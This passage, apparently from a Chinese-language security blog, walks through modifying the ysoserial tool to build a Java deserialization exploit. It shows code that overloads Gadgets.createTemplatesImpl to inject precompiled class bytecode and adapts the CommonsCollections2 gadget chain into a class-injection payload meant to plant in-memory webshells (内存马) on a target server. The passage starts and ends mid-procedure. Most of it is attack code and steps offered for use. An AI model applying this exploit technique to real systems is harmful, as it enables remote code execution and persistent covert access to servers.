 测试一下环境是否正常

![](https://gitee.com/fuli009/images/raw/master/public/20220216084001.png)

会报错，但是我们可以发现是`TemplatesImpl`抛出的，并且检查命令执行效果可以发现命令执行成功了，接下来开始改造Payload

### 构造Exploit

首先是用IDEA导入ysoserial项目，项目的Jdk版本设置为1.8。

由于打包起来太麻烦，我们将`ysoserial.GeneratePayload`作为主类运行，直接生成Payload

由于我们要输出到文件中，修改`GeneraterPayload.java`的第35行`PrintStream out =
System.out;`改为`PrintStream out = new PrintStream("./output.serial");`

首先在`ysoserial.payloads.util.Gadgets.java`中调整`createTemplateImpl`函数

由于原版的`createTemplateImpl`根据要执行的指令来生成`TemplateImpl`我们将其重载并稍微修改一下

我们复制`createTemplateImpl`并改为如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static Object createTemplatesImpl ( final Class _class ) throws Exception {    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {        return createTemplatesImpl(            _class,            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));    }  
        return createTemplatesImpl(_class, TemplatesImpl.class, TransformerFactoryImpl.class);}  
      
    public static <T> T createTemplatesImpl ( final Class _class, Class<T> tplClass, Class<?> transFactory )    throws Exception {    final T templates = tplClass.newInstance();  
        final byte[] classBytes = ClassFiles.classAsBytes(_class);  
        // inject class bytes into instance    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {        classBytes, ClassFiles.classAsBytes(Foo.class)    });  
        // required to make TemplatesImpl happy    Reflections.setFieldValue(templates, "_name", "Pwnr");    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());    return templates;}

对于第一处重载，只是把`command`改为了`_class`并删除了无用的参数，第二处重载则从通过Javaassist技术制作类并获取字节码变为直接获取字节码，因为我们直接编写了类文件

然后将`payloads/CommonsCollections2`复制出一个新版本，命名为`CommonsCollections2ForClassInjection`

将`command`参数重构为`payloadName`，变为注入的类名来使用，之后可以方便调整为使用`ServletInjection`等其它内存马

把这一句进行修改

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(command);

换为如下，直接通过类名获取字节码

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(Class.forName("ysoserial.shells."+payloadName));
